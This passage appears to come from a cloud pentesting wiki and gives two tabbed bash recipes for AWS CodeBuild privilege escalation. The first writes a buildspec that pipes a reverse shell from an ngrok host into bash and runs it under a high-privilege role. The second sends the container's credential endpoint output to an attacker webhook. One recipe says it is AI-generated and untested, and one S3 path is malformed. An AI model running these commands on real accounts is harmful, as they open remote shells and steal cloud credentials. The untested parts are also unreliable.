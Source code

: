 {{#tab name="Example2" }}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
build:
commands:
- curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Upload the buildspec to the bucket and give access to everyone
aws s3 cp buildspec.yml s3:<S3_BUCKET_NAME>/buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{{#endtab }}

{{#tab name="Example3" }}
```bash
# Generated by ex16x41, tested
# Create a hook.json file with command to send output from curl credentials URI to your webhook address

{
"name": "user-project-1",
"source": {
"type": "NO_SOURCE",
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n      - curl \"http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI\" | curl -X POST -d @- WEBHOOK URL\n"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER",
"image": "public.ecr.aws/codebuild/amazonlinux2-x86_64-standard:4.0",
"computeType": "BUILD_GENERAL1_SMALL"
},
"serviceRole": "ARN-OF-TARGET-ROLE"
}

# Create a new CodeBuild project with the hook.json file
aws codebuild create-project --cli-input-json file:///tmp/hook.json

# Start a build with the new project
aws codebuild start-build --project-name user-project-1

# Get Credentials output to webhook address
Wait a few seconds to maybe a couple minutes and view the POST request with data of credentials to pivot from

```
{{#endtab }}
{{#endtabs }}
